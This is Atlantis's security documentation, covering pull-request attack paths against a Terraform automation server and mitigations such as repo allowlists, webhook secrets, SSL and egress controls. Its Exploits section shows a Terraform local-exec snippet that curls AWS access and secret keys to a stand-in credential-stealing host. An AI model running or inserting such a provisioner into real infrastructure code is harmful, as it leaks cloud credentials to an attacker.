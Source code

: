 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec)
    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```
* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `main`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Bitbucket Cloud (bitbucket.org)
::: danger
Bitbucket Cloud does not support webhook secrets. This could allow attackers to spoof requests from Bitbucket. Ensure you are allowing only Bitbucket IPs.
:::
Bitbucket Cloud doesn't support webhook secrets. This means that an attacker could
make fake requests to Atlantis that look like they're coming from Bitbucket.

If you are specifying `--repo-allowlist` then they could only fake requests pertaining
to those repos so the most damage they could do would be to plan/apply on your
own repos.

To prevent this, allowlist [Bitbucket's IP addresses](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)
 (see Outbound IPv4 addresses).

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos without proper configuration of the security settings.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`
Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:
* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

You can also specify the `--repo-denylist` flag to exclude repos included by the allow list.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning
If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:
1. Bake providers into the Atlantis image or host and deny egress in production.
1. Implement the provider registry protocol internally and deny public egress, that way you control who has write access to the registry.
1. Modify your [server-side repo configuration](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` step to validate against the
   use of disallowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue. Conftest could be of use here.

### `--var-file-allowlist`
The files on your Atlantis install may be accessible as [variable definition files](https://developer.hashicorp.com/terraform/language/values/variables#variable-definitions-tfvars-files)
from pull requests by adding  
`atlantis plan -- -var-file=/path/to/file` comments. To mitigate this security risk, Atlantis has limited such access
only to the files allowlisted by the `--var-file-allowlist` flag. If this argument is not provided, it defaults to
Atlantis' data directory.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication
Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.

### Enable Authentication on Atlantis Web Server
It is very recommended to enable authentication in the web service. Enable BasicAuth using the `--web-basic-auth=true` and setup a username and a password using `--web-username=yourUsername` and `--web-password=yourPassword` flags.

You can also pass these as environment variables `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` and `ATLANTIS_WEB_PASSWORD=yourPassword`. 

:::tip Tip
We do encourage the usage of complex passwords in order to prevent basic bruteforcing attacks.
:::
